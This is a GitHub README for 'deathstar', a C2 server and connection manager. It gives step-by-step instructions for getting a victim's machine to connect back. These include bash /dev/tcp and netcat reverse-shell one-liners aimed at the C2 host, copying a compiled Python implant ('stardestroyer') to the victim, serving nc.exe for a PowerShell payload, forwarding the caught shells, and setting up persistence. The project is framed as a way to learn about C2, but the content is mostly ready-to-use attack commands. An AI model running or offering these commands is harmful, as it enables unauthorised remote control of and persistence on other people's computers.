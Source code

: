 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/e01272a6-1e5a-416c-8b56-45460317a349)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - BASH
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
        - This will drop the moment the C2 server 'drops'
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - BASH
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
        - This will drop the moment the C2 server 'drops'
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.


